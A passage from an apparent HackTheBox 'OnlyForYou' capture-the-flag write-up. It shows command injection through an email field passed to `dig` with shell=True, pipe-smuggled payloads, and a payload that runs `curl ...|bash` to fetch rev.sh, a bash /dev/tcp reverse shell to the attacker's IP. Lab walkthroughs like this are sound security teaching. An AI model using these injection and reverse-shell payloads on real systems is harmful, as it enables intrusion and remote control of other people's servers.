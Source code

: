 ```http
		return status
	elif status == 1:
		return status
	else:
		return status
```

As we can see, it runs the `dig` command with the email address domain. The command execution happens through this line: `result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)`. We can achieve command injection using the following email `evyatar9@htb.local|<COMMAND>`, and the command `dig txt evyatar9@htb.com|<COMMAND>` will be executed.

Let's test it using the following payload: `evyatar9@htb.com|ping -c1 10.10.14.14` (change the email HTML input type from email to text): 

![ping.JPG](images/ping.JPG)

And we receive the ping response:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ sudo tcpdump -i tun0 icmp
[sudo] password for evyatar9: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:37:50.165647 IP only4you.htb > 10.10.14.14: ICMP echo request, id 4, seq 1, length 64
23:37:50.165670 IP 10.10.14.14 > only4you.htb: ICMP echo reply, id 4, seq 1, length 64
```

Now we can obtain a reverse shell using the following payload: `evyatar9@htb.com|curl http://10.10.14.14:8000/rev.sh|bash`, where `rev.sh` is the shell script to establish the reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cat rev.sh
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
```

Sending it: 

![reverse.JPG](images/reverse.JPG)

